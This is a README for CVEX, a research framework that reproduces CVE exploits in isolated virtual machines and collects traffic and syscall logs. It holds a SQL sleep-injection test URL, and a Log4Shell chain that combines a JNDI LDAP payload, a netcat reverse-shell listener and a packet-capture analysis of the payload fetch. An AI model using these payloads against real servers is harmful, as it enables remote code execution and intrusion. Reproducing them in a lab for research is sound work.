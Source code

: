 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -e .
sudo apt update
sudo apt install virtualbox virtualbox-ext-pack
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex -c records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu

<details>

<summary>Execution of CVE-0000-00000</summary>


[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) describes the VM infrastructure for this PoC:
```
blueprint: windows10-ubuntu2204
ubuntu:
  trace: nginx
  playbook: linux.yml
windows:
  trace: "curl"
  command: "curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)"
```

Full list of parameters of a CVEX record:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

Contributors can provide additional blueprints. In the case of CVE-0000-00000 the blueprint `windows10-ubuntu2204` is stored in [blueprints/windows10-ubuntu2204/blueprint.yml](blueprints/windows10-ubuntu2204/blueprint.yml):
```
windows:
  image: "gusztavvargadr/windows-10"
  version: "2202.0.2404"
  type: "windows"
ubuntu:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Full list of parameters of a blueprint:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

At first, CVEX pulls an Ubuntu VM from the Vagrant repository and stores the config file of the VM in `~/.cvex/router`. This VM will be the router. It also creates the `clean` snapshot with the initial state of the VM:
```
~/CVEX$ cvex -c records/CVE-0000-00000
2024-09-13 13:52:30,081 - INFO - [router] Retrieving status of router...
2024-09-13 13:52:32,820 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-09-13 13:52:33,766 - INFO - [router] Starting the VM router...
2024-09-13 13:54:41,199 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
```

Ansible playbooks from [ansible](/ansible) are used to pre-configure VMs. CVEX runs the [ansible/router.yml](/ansible/router.yml) Ansible playbook before creating the `router` snapshot:
```
2024-09-13 13:54:56,344 - INFO - [router] Executing Ansible playbook ansible/router.yml...
2024-09-13 13:54:58,042 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] PLAY [Router] ******************************************************************
2024-09-13 13:54:58,043 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-09-13 13:55:01,136 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter could change the meaning of that path. See
2024-09-13 13:55:01,137 - INFO - [router] https://docs.ansible.com/ansible-
2024-09-13 13:55:01,137 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 13:55:01,162 - INFO - [router] ok: [router]
2024-09-13 13:55:01,162 - INFO - [router] 
2024-09-13 13:55:01,166 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-09-13 13:55:20,994 - INFO - [router] changed: [router]
2024-09-13 13:55:20,994 - INFO - [router] 
2024-09-13 13:55:20,994 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-09-13 13:55:21,824 - INFO - [router] changed: [router]
2024-09-13 13:55:21,824 - INFO - [router] 
2024-09-13 13:55:21,824 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-09-13 13:55:25,603 - INFO - [router] ok: [router]
2024-09-13 13:55:25,603 - INFO - [router] 
2024-09-13 13:55:25,603 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-09-13 13:55:26,131 - INFO - [router] changed: [router]
2024-09-13 13:55:26,131 - INFO - [router] 
2024-09-13 13:55:26,131 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-09-13 13:55:27,643 - INFO - [router] changed: [router]
2024-09-13 13:55:27,643 - INFO - [router] 
2024-09-13 13:55:27,643 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-09-13 13:55:29,027 - INFO - [router] changed: [router]
2024-09-13 13:55:29,027 - INFO - [router] 
2024-09-13 13:55:29,027 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-09-13 13:55:29,556 - INFO - [router] changed: [router]
2024-09-13 13:55:29,557 - INFO - [router] 
2024-09-13 13:55:29,557 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-09-13 13:55:30,088 - INFO - [router] changed: [router]
2024-09-13 13:55:30,088 - INFO - [router] 
2024-09-13 13:55:30,088 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-09-13 13:55:30,711 - INFO - [router] changed: [router]
2024-09-13 13:55:30,711 - INFO - [router] 
2024-09-13 13:55:30,711 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-09-13 13:55:31,336 - INFO - [router] changed: [router]
2024-09-13 13:55:31,336 - INFO - [router] 
2024-09-13 13:55:31,336 - INFO - [router] PLAY RECAP *********************************************************************
2024-09-13 13:55:31,337 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 13:55:31,461 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
```

After the router VM, CVEX runs the Windows VM:
```
2024-09-13 13:55:43,939 - INFO - [windows] Initializing a new VM windows at /home/john/.cvex/gusztavvargadr_windows-10/2202.0.2404/1...
2024-09-13 13:55:44,936 - INFO - [windows] Starting the VM windows...
```

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running:
```
$ cvex -c records/CVE-0000-00000 -k
2024-09-13 14:25:18,880 - INFO - [router] Retrieving status of router...
2024-09-13 14:25:23,828 - INFO - [router] VM router (192.168.56.2) is already running
2024-09-13 14:25:26,910 - INFO - [router] Retrieving snapshot list of router...
2024-09-13 14:25:29,701 - INFO - [windows] Looking for a VM with CVE-0000-00000/windows snapshot...
2024-09-13 14:25:35,875 - INFO - [windows] Retrieving status of windows...
2024-09-13 14:25:41,071 - INFO - [windows] VM windows (192.168.56.3) is already running
2024-09-13 14:25:45,390 - INFO - [windows] Retrieving snapshot list of windows...
2024-09-13 14:25:51,738 - INFO - [windows] Creating snapshot 'clean' for VM windows (192.168.56.3)...
```

CVEX runs the [ansible/windows.yml](/ansible/windows.yml) Ansible playbook before creating the `CVE-0000-00000/windows` snapshot:
```
2024-09-13 14:26:30,209 - INFO - [windows] Executing Ansible playbook ansible/windows.yml...
2024-09-13 14:26:31,345 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] PLAY [Windows] *****************************************************************
2024-09-13 14:26:31,346 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] TASK [Gathering Facts] *********************************************************
2024-09-13 14:27:21,945 - INFO - [windows] ok: [windows]
2024-09-13 14:27:21,946 - INFO - [windows] 
2024-09-13 14:27:21,946 - INFO - [windows] TASK [Create C:\Tools] *********************************************************
2024-09-13 14:28:04,478 - INFO - [windows] changed: [windows]
2024-09-13 14:28:04,478 - INFO - [windows] 
2024-09-13 14:28:04,479 - INFO - [windows] TASK [Download Process Monitor] ************************************************
2024-09-13 14:28:42,227 - INFO - [windows] changed: [windows]
2024-09-13 14:28:42,227 - INFO - [windows] 
2024-09-13 14:28:42,227 - INFO - [windows] TASK [Unzip ProcessMonitor.zip] ************************************************
2024-09-13 14:29:19,518 - INFO - [windows] changed: [windows]
2024-09-13 14:29:19,518 - INFO - [windows] 
2024-09-13 14:29:19,518 - INFO - [windows] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:32:03,983 - INFO - [windows] changed: [windows]
2024-09-13 14:32:03,983 - INFO - [windows] 
2024-09-13 14:32:03,983 - INFO - [windows] TASK [Install mitmproxy-ca-cert.cer] *******************************************
2024-09-13 14:32:50,823 - INFO - [windows] changed: [windows]
2024-09-13 14:32:50,823 - INFO - [windows] 
2024-09-13 14:32:50,823 - INFO - [windows] TASK [Copy root.crl] ***********************************************************
2024-09-13 14:35:47,857 - INFO - [windows] changed: [windows]
2024-09-13 14:35:47,858 - INFO - [windows] 
2024-09-13 14:35:47,858 - INFO - [windows] TASK [Install root.crl] ********************************************************
2024-09-13 14:36:31,914 - INFO - [windows] changed: [windows]
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:31,914 - INFO - [windows] PLAY RECAP *********************************************************************
2024-09-13 14:36:31,914 - INFO - [windows] windows                    : ok=8    changed=7    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:32,194 - INFO - [windows] Creating snapshot 'CVE-0000-00000/windows' for VM windows (192.168.56.3)...
```

After the Windows VM, CVEX runs the Ubuntu VM:
```
2024-09-13 14:37:03,308 - INFO - [ubuntu] Looking for a VM with CVE-0000-00000/ubuntu snapshot...
2024-09-13 14:37:05,749 - INFO - [ubuntu] Retrieving status of ubuntu...
2024-09-13 14:37:07,563 - INFO - [ubuntu] Initializing a new VM ubuntu at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-09-13 14:37:09,382 - INFO - [ubuntu] Starting the VM ubuntu...
2024-09-13 14:40:50,765 - INFO - [ubuntu] Creating snapshot 'clean' for VM ubuntu (192.168.56.4)...
```

When the VM is up, CVEX runs the [ansible/linux.yml](/ansible/linux.yml) Ansible playbook:
```
2024-09-13 14:41:11,647 - INFO - [ubuntu] Executing Ansible playbook ansible/linux.yml...
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] PLAY [Linux] *******************************************************************
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:19,893 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:19,893 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:19,894 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:19,921 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:19,922 - INFO - [ubuntu] 
2024-09-13 14:41:19,922 - INFO - [ubuntu] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:41:22,855 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:22,855 - INFO - [ubuntu] 
2024-09-13 14:41:22,856 - INFO - [ubuntu] TASK [Run update-ca-certificates] **********************************************
2024-09-13 14:41:34,967 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:34,967 - INFO - [ubuntu] 
2024-09-13 14:41:34,967 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:41:34,968 - INFO - [ubuntu] ubuntu                     : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) has an optional parameter `playbook: linux.yml` that specifies the custom Ansible playbook. In our case it installs nginx before creating the `CVE-0000-00000/ubuntu` snapshot:
```
2024-09-13 14:41:35,241 - INFO - [ubuntu] Executing Ansible playbook records/CVE-0000-00000/linux.yml...
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] PLAY [Linux target] ************************************************************
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:41,105 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:41,105 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:41,106 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:41,106 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:41,106 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:41,138 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:41,138 - INFO - [ubuntu] 
2024-09-13 14:41:41,138 - INFO - [ubuntu] TASK [Install nginx 1.18.0] ****************************************************
2024-09-13 14:42:43,406 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:43,406 - INFO - [ubuntu] 
2024-09-13 14:42:43,406 - INFO - [ubuntu] TASK [Copy default.conf] *******************************************************
2024-09-13 14:42:45,154 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:45,154 - INFO - [ubuntu] 
2024-09-13 14:42:45,154 - INFO - [ubuntu] TASK [Copy certificate] ********************************************************
2024-09-13 14:42:46,761 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:46,761 - INFO - [ubuntu] 
2024-09-13 14:42:46,761 - INFO - [ubuntu] TASK [Copy key] ****************************************************************
2024-09-13 14:42:48,310 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:48,310 - INFO - [ubuntu] 
2024-09-13 14:42:48,310 - INFO - [ubuntu] TASK [Copy index.html] *********************************************************
2024-09-13 14:42:50,012 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:50,012 - INFO - [ubuntu] 
2024-09-13 14:42:50,012 - INFO - [ubuntu] TASK [Restart nginx] ***********************************************************
2024-09-13 14:42:51,638 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:51,638 - INFO - [ubuntu] 
2024-09-13 14:42:51,638 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:42:51,639 - INFO - [ubuntu] ubuntu                     : ok=7    changed=6    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:42:51,639 - INFO - [ubuntu] 
2024-09-13 14:42:51,776 - INFO - [ubuntu] Creating snapshot 'CVE-0000-00000/ubuntu' for VM ubuntu (192.168.56.4)...
```

Every VM may have maximum 3 Ansible playbooks:
1. Configuration playbook ([ansible/linux.yml](/ansible/linux.yml)) - controlled by CVEX developers
2. Blueprint playbook (none in our case) - controlled by CVEX blueprint contributors
3. CVE playbook ([records/CVE-0000-00000/linux.yml](records/CVE-0000-00000/linux.yml)) - controlled by CVEX users

At this point all VMs (router, Windows, Ubuntu) are up and running, the needed software is installed and the needed VM snapshots are created. CVEX performs the following actions:
- Configures the hosts file on every VM except the router
- Sets up static network interface IP addresses on every VM
- Configures the routing so that all network traffic flows through the router VM
- Runs tcpdump on the router
- Runs mitmproxy on the router
- Runs strace on Linux VMs
- Runs Process Monitor on Windows VMs

```
2024-09-13 14:43:04,575 - INFO - [router] Executing 'ls /etc/netplan'...
2024-09-13 14:43:07,653 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:43:07,731 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:43:07,760 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:43:07,805 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-09-13 14:43:07,828 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:43:07,894 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:43:08,017 - INFO - [router] Executing 'sudo netplan apply'...
2024-09-13 14:43:12,316 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:43:12,402 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:43:12,531 - INFO - [windows] Executing 'netsh interface ipv4 show inter'...
2024-09-13 14:43:13,943 - INFO - [windows] Executing 'netsh interface ipv4 set interface 5 dadtransmits=0 store=persistent'...
2024-09-13 14:43:14,155 - INFO - [windows] Executing 'powershell "Get-NetAdapter -Name 'Ethernet 2' | New-NetIPAddress -IPAddress 192.168.56.3 -DefaultGateway 192.168.56.2 -PrefixLength 24"'...
2024-09-13 14:43:35,697 - INFO - [windows] Executing 'powershell "Disable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:43:50,320 - INFO - [windows] Executing 'powershell "Enable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:44:04,036 - INFO - [windows] Executing 'route DELETE 192.168.56.0'...
2024-09-13 14:44:04,156 - INFO - [windows] Executing 'route print'...
2024-09-13 14:44:04,339 - INFO - [windows] Executing 'route ADD 192.168.56.0 MASK 255.255.255.0 192.168.56.2 if 5'...
2024-09-13 14:44:04,463 - INFO - [windows] Downloading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,691 - INFO - [windows] Uploading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,713 - INFO - [ubuntu] Executing 'ls /etc/netplan'...
2024-09-13 14:44:07,449 - INFO - [ubuntu] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:44:07,542 - INFO - [ubuntu] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:44:07,613 - INFO - [ubuntu] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:44:07,650 - INFO - [ubuntu] Uploading /tmp/cvex.yaml...
2024-09-13 14:44:07,698 - INFO - [ubuntu] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:44:07,749 - INFO - [ubuntu] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:44:07,866 - INFO - [ubuntu] Executing 'sudo netplan apply'...
2024-09-13 14:44:11,357 - INFO - [ubuntu] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:44:11,452 - INFO - [ubuntu] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:44:11,604 - INFO - [ubuntu] Downloading /etc/hosts...
2024-09-13 14:44:11,674 - INFO - [ubuntu] Uploading /tmp/hosts...
2024-09-13 14:44:11,693 - INFO - [ubuntu] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-09-13 14:44:11,772 - INFO - [router] Executing 'pkill mitmdump'...
2024-09-13 14:44:11,850 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-09-13 14:44:11,965 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:12,021 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:12,092 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-09-13 14:44:12,181 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-09-13 14:44:12,238 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-09-13 14:44:12,847 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-09-13 14:44:18,321 - INFO - [windows] Executing 'taskkill /IM Procmon.exe /F'...
2024-09-13 14:44:18,675 - INFO - [windows] Executing 'rmdir /S /Q C:\cvex'...
2024-09-13 14:44:18,765 - INFO - [windows] Executing 'mkdir C:\cvex'...
2024-09-13 14:44:18,852 - INFO - [windows] Uploading /C:\cvex\config.pmc...
2024-09-13 14:44:18,894 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /BackingFile C:\cvex\procmon.pml /LoadConfig C:\cvex\config.pmc /Quiet'...
2024-09-13 14:44:18,917 - INFO - [ubuntu] Executing 'sudo pkill strace'...
2024-09-13 14:44:19,008 - INFO - [ubuntu] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:19,078 - INFO - [ubuntu] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:19,133 - INFO - [ubuntu] Executing 'ps -ax | egrep "nginx" | grep -v grep'...
2024-09-13 14:44:19,238 - INFO - [ubuntu] Executing 'sudo strace -p 3934 -o /tmp/cvex/ubuntu_strace_nginx_3934.log -v'...
2024-09-13 14:44:19,399 - INFO - [ubuntu] Executing 'sudo strace -p 3935 -o /tmp/cvex/ubuntu_strace_nginx_3935.log -v'...
2024-09-13 14:44:19,527 - INFO - [ubuntu] Executing 'sudo strace -p 3936 -o /tmp/cvex/ubuntu_strace_nginx_3936.log -v'...
```


At this point all VMs are ready to reproduce the CVE. CVEX executes the command from `cvex.yml`:
```
2024-09-13 14:44:19,648 - INFO - [windows] Executing 'curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)'...
```

The curl command has succeeded. CVEX downloads logs and puts them to the default output folder `out`:
- From router: tcpdump's PCAP file
- From router: mitmdump's log file
- From Windows: Process Monitor's log file
- From Linux: strace's log files

Parameter `-o` specifies custom output folder.

```
2024-09-13 14:44:21,063 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /Terminate'...
2024-09-13 14:44:30,975 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /OpenLog C:\cvex\procmon.pml /SaveAs C:\cvex\procmon.xml'...
2024-09-13 14:44:31,948 - INFO - [windows] Downloading /C:\cvex\procmon.pml...
2024-09-13 14:44:32,644 - INFO - [windows] Downloading /C:\cvex\procmon.xml...
2024-09-13 14:44:33,304 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3934.log...
2024-09-13 14:44:33,403 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3935.log...
2024-09-13 14:44:33,436 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3936.log...
2024-09-13 14:44:33,471 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-09-13 14:44:38,472 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-09-13 14:44:38,524 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
```
</details>

- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
